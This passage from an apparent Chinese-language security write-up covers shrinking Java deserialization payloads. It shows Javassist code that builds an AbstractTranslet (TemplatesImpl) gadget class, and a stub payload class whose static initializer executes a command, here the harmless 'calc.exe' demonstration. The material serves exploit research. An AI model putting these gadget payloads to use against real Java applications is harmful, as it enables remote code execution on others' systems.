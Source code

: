 ```java
                                           "com.sun.org.apache.xalan.internal.xsltc.DOM document, " +
                                           "com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) {\n" +
                                           "    }", ctClass);
        ctClass.addMethod(ctMethod1);

        CtMethod ctMethod2 = CtMethod.make("    public void transform(" +
                                           "com.sun.org.apache.xalan.internal.xsltc.DOM document, " +
                                           "com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, " +
                                           "com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) {\n" +
                                           "    }", ctClass);
        ctClass.addMethod(ctMethod2);

        byte[] bytes = ctClass.toBytecode();
        ctClass.defrost();

        return bytes;
    } catch (Exception e) {
        e.printStackTrace();
        return new byte[]{};
    }
}
```

这里利用了一系列的 make 和 set 但是没有用到 makeClassInitializer().insertAfter(cmd) 看来就是这里的问题了。

这里刚刚已经提过一嘴了，使用Javassist生成的字节码似乎本身就不包含 `LINENUMBER` 指令，不过这里是 4ra1n 师傅的猜测 ... 因为用 ASM 删除之后 Payload 进一步缩小了。

#### 删除重写方法

```java
    public static class StubTransletPayload extends AbstractTranslet {
        static {
            try {
                Runtime.getRuntime().exec("calc.exe");
            } catch (Exception e) {
                e.printStackTrace();  //发现这里实际上设置与不设置得结果是一样的
            }
        }

        @Override
        public void transform(DOM document, SerializationHandler[] handlers) {

        }

        @Override
        public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {

        }
    }
```
